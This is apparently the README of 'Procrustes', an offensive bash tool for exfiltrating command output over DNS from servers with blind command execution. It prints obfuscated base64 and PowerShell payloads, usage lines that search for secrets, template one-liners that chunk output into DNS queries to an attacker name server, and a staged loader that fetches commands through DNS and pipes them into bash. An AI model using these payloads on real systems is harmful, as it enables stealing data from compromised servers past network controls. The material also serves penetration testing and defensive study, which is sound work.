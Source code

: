 # Procrustes

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports sh, bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

Unstaged:
<p align="center">
  <img src="images/op.gif"/>
</p>

Staged:
<p align="center">
  <img width="680" src="images/staged.gif"/>
</p>

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Below are the supported command transformations, generated for the exfiltration of the command: `ls`

sh:
```bash
sh -c $@|base64${IFS}-d|sh . echo IGRpZyBAMCArdHJpZXM9NSBgKGxzKXxiYXNlNjQgLXcwfHdjIC1jYC5sZW4xNjAzNTQxMTc4LndoYXRldi5lcgo=
```

bash:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```

powershell:
```bash
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./procroustes_chunked.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher_examples/local_bash.sh -- 'ls -lha|grep secret' < <(stdbuf -oL tcpdump --immediate -l -i any udp port 53)
```

2. Local testing for powershell with WSL2:
```bash
stdbuf -oL tcpdump --immediate -l -i any udp port 53|./procroustes_chunked.sh -w ps -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher_examples/local_powershell_wsl2.sh -- 'gci | % {$_.Name}'
```

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./procroustes_chunked.sh -w ps -h yourdns.ns -d "Resolve-DnsName" -x dispatcher_examples/curl_waf.sh -- 'gci | % {$_.Name}' < <(stdbuf -oL ssh user@HOST 'sudo tcpdump --immediate -l udp port 53')
```

4. More information on the options
```bash
./procroustes_chunked.sh --help
```

### procroustes_chunked vs procroustes_full

In a nutshell, assuming we want to exfiltrate some data that has to be broken into four chunks in order to be able to be transmitted over DNS:
* procroustes_chunked: calls the dispatcher four times, each time requesting a different chunk from the server
* procroustes_full: calls the dispatcher once, the command that will get executed on the server will be responsible for chunking the data and sending them over.
* procroustes_full/staged: same as procroustes_full, but uses a stager to get the command used by procroustes_full to chunk the data

Some of their differences can also be illustrated through the template commands used for bash/powershell:

procroustes_chunked/bash:
```bash
%DNS_TRIGGER% `(%CMD%)|base64 -w0|cut -b$((%INDEX%+1))-$((%INDEX%+%COUNT%))'`.%UNIQUE_DNS_HOST%
```
procroustes_full/bash:
```bash
((%CMD%);printf '\n%SIGNATURE%')|base64 -w0|grep -Eo '.{1,%LABEL_SIZE%}'|xargs -n%NLABELS% echo|tr ' ' .|nl|awk '{printf "%s.%s%s\n",$2,$1,"%UNIQUE_DNS_HOST%"}'|xargs -P%THREADS% -n1 %DNS_TRIGGER%
```
procroustes_full/bash/staged:
```bash
while [[ ${a[*]} != "4 4 4 4" ]];do ((i++));printf %s "$c";IFS=. read -a a < <(dig +short $i.%UNIQUE_DNS_HOST%);c=$(printf "%02x " ${a[*]}|xxd -r -p);done|bash
```

---------------------------------------


|                       | procroustes_chunked                | procroustes_full  |  procroustes_full_staged (experimental)  |
| -------------         |:-------------:               |:-----:         |:-----:         |
| payload size overhead (bash/powershell) [1] | 150\*NLABELS/500\*NLABELS (+CMD_LEN)          | 300/750 (+CMD_LEN)       |   250/❌  |
| dispatcher calls #     | #output/(LABEL_SIZE*NLABELS)[2] |   1👌          |                1    |
| speed (bash/powershell)[3]                | ✔/✔                         |  ✔/😔         | ✓/❌|

[1] For the staged version, the command is fetched through DNS, so the listed size is the total payload size

[2] On procroustes_chunked, the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

[3] We can speed up the exfiltration process by having the NS properly responding to the requests received. This is especially usefull in the case of procroustes_full/powershell. The simple [DNS server](https://github.com/vp777/procrustes/blob/master/staged_files/dnsns.py) used for the staged version can do this task

### Todos
 - Create a wrapper script, that will contain variables (e.g. host=a, dns_trigger=b, dispatcher=c ...) and will translate them to procrustes commands (e.g. ./procrustes_full.sh -h a -d b -x c -- "$1")
 - ~~we could achieve constant command length by sending initially a "stager" command, which will then get our full command through DNS responses.~~ (done for bash)
 - Add stagers for sh (could be a massage of the bash stager), powershell (something similar with [this](https://github.com/no0be/DNSlivery/blob/731ace1eb35b7499cc7b95e22816a371507cbd40/dnslivery.py#L171))
 - procroustes_full/powershell command can use some parallelization:
 ```bash
[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((%CMD%)+(echo "`n%SIGNATURE%"))) -split '(.{1,%CHUNK_SIZE%})'|?{$_}|%{$i+=1;%DNS_TRIGGER% $('{0}{1}{2}' -f ($_ -replace '(.{1,%LABEL_SIZE%})','$1.'),$i,'%UNIQUE_DNS_HOST%')}
```
PRs are welcome

### Credits
* [Collabfiltrator](https://github.com/0xC01DF00D/Collabfiltrator) - idea of chunking the data on the server. It also performs similar functionalities with this script, so check it out.
* [DNSlivery](https://github.com/no0be/DNSlivery) - modified version of DNSlivery is used as DNS server in the staged version